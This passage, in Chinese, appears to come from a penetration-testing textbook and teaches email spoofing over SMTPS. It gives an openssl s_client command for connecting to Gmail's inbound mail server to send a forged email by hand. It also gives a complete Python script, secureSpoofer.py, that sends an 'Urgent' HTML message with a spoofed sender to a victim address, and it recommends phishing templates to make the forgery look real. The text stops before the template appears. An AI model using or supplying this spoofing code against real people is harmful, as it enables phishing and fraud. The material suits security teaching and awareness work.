 在之前的示例中，我们通过未加密的通道发送了 SMTP 消息。现在让我们来看一下 SMTPS，它通过 TLS 加密的通道发送 SMTP 消息。我们的 Metasploitable 虚拟机不支持 SMTPS，因此我们将连接到支持 SMTPS 的 Gmail SMTP 服务器，并向自己发送一封伪造的电子邮件。

如果你的 ISP 允许，或者你有 VPN，可以使用命令`openssl s_client`连接到 Google 的 SMTP 服务器（*gmail-smtp-in.l.google.com*），该服务器接受来自其他 SMTP 服务器的传入 SMTP 连接。连接后，你可以手动执行交换并发送伪造的电子邮件。

```
kali@kali:~$ openssl s_client -starttls smtp -connect gmail-smtp-in.l.google.

			 com:25 -crlf -ign_eof
```

现在我们来编写一个程序，使用 SMTPS 与邮件服务器进行交互。有些服务器仅支持通过 SMTPS 进行加密通信，因此并非总能使用未加密的 SMTP 来伪造邮件。Python 的`smtplib`库封装了我们在本章之前讨论的功能。我们将使用它通过 SMTPS 发送伪造的电子邮件。打开你喜欢的文本编辑器，复制以下代码，并将程序命名为*secureSpoofer.py*：

```
   from smtplib import SMTP

   from email.mime.text import MIMEText

   from email.mime.multipart import MIMEMultipart

   receiver = 'victimEmail'

   receiver_name = 'Victim Name'

   fromaddr = 'Name <spoofed@domain.com>'

   smtp_server = "gmail-smtp-in.l.google.com"

   msg = MIMEMultipart()

   msg['Subject'] = "Urgent"

   msg['From'] = fromaddr

➊ with open('template.html', 'r') as file:

       message = file.read().replace('\n', '')

       message = message.replace("{{FirstName}}", receiver_name)

       msg.attach(MIMEText(message, "html"))

       with SMTP(smtp_server, 25) as smtp:

         ➋ smtp.starttls()

            smtp.sendmail(fromaddr, receiver, msg.as_string())
```

我们将从文件中读取邮件内容 ➊，而不是手动输入。这将允许我们使用电子邮件模板，使伪造的电子邮件看起来更真实。这些模板是用 HTML 编写的，你可以通过在网上搜索“email phishing templates”找到它们。加载邮件内容后，启动 TLS 会话 ➋。

这是一个电子邮件模板示例（*template.html*）：
